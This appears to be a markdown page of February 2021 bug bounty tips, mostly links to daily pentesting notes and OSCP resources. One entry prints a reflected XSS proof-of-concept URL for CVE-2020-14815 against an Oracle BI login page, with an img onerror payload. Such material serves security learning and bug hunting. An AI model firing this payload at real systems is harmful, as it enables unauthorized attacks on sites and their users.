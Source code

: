 # Bug Bounty Tips - February 2021

📅 02-Feb-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 32
- [Pentesting Kibana Service ](https://github.com/harsh-bothra/learn365/blob/main/days/day32.md)

## OSCP Preparation
- [All about OSCP](https://oscp.infosecsanyam.in/)
- [OSCP Cheat Sheet](https://www.bytefellow.com/oscp-ultimate-cheatsheet/)

📅 03-Feb-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 33
- [Pentesting Docker Registry](https://github.com/harsh-bothra/learn365/blob/main/days/day33.md)

📅 04-Feb-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 34
- [HTML Scriptless Attacks / Dangling Markup Attacks (Part - 1)](https://github.com/harsh-bothra/learn365/blob/main/days/day34.md)


📅 05-Feb-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 35
- [HTML Scriptless Attacks / Dangling Markup Attacks (Wrap)](https://github.com/harsh-bothra/learn365/blob/main/days/day35.md)

📅 06-Feb-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 36
- [Pentesting Rsync Service](https://github.com/harsh-bothra/learn365/blob/main/days/day36.md)

📅 07-Feb-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 37
- [CRLF Injection](https://github.com/harsh-bothra/learn365/blob/main/days/day37.md)

📅 08-Feb-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 38
- [Pentesting FTP Service](https://github.com/harsh-bothra/learn365/blob/main/days/day38.md)

📅 09-Feb-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 39
- [OpenID Connect Implementation Issues](https://github.com/harsh-bothra/learn365/blob/main/days/day39.md)

## CVE-2020-14815 
```text
https://target[.]com/bi-security-login/login.jsp?msi=false&redirect="><img/src/onerror%3dalert(document.domain)>
```
![img](https://pbs.twimg.com/media/Emox1wcXIAAabpt?format=png&name=900x900)

**Source: https://twitter.com/HackerOn2Wheels/status/1326927875279380480?s=20**

📅 10-Feb-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 40
- [Cookie Based Authentication Vulnerabilities](https://github.com/harsh-bothra/learn365/blob/main/days/day40.md)
